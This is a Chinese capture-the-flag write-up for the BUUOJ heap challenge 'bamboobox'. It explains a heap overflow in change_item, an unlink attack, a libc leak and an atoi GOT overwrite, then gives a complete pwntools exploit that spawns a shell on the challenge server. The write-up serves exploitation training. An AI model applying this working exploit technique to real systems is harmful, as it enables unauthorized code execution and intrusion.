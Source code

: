 @[toc]
# buu073-hitcontraining_bamboobox
数据结构：
![](https://img-blog.csdnimg.cn/d99f16a105794f47aec93a1ea9a3db5f.png)
共可申请100个结构，其中change_item函数有任意长度堆溢出漏洞。
![在这里插入图片描述](https://img-blog.csdnimg.cn/72907531dc174ac0a71c3acee836b772.png)
本题程序加载地址固定，itemlist地址固定，因此考虑使用unlink方法解题。
![在这里插入图片描述](https://img-blog.csdnimg.cn/d858dce877a145c588d755fa3719a302.png)
unlink之后可以直接通过第一个chunk读取到stdin的地址，从而获取libc加载基址。
需要注意的是这里修改的是atoi函数的got表地址，如果修改free函数的got表地址，由于输入时程序会将输入的后面一个字节清零，会导致free函数got表后面的一个地址（puts）发生错误，使得menu函数调用puts函数失败。而atoi后面是exit函数地址，无关紧要。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29731)
elf = ELF('./pwn')

def add(length, content):
    io.sendlineafter(b'Your choice:', b'2')
    io.sendlineafter(b'Please enter the length of item name:', str(length).encode())
    io.sendafter(b'Please enter the name of item:', content)

def show():
    io.sendlineafter(b'Your choice:', b'1')

def change(index, length, content):
    io.sendlineafter(b'Your choice:', b'3')
    io.sendlineafter(b'Please enter the index of item:', str(index).encode())
    io.sendlineafter(b'Please enter the length of item name:', str(length).encode())
    io.sendafter(b'Please enter the new name of the item:', content)

def delete(index):
    io.sendlineafter(b'Your choice:', b'4')
    io.sendlineafter(b'Please enter the index of item:', str(index).encode())

add(0x88, b'colin')     # chunk #0
add(0x88, b'colin')     # chunk #1
add(0x20, b'/bin/sh')   # chunk #2
payload = p64(0x10)
payload += p64(0x81)
payload += p64(0x6020C8 - 0x18)
payload += p64(0x6020C8 - 0x10)
payload += cyclic(0x60)
payload += p64(0x80)
payload += p64(0x90)
change(0, 0x90, payload)
delete(1)
show()
io.recv(4)
stdin = u64(io.recv(6) + b'\x00\x00')
print(hex(stdin))
libc = LibcSearcher('_IO_2_1_stdin_', stdin)
base = stdin - libc.dump('_IO_2_1_stdin_')
sys = base + libc.dump('system')
change(0, 0x20, p64(stdin) + p64(0) + p64(0x88) + p64(elf.got['atoi']))
change(0, 0x8, p64(sys))
io.sendline(b'/bin/sh')
io.interactive()
```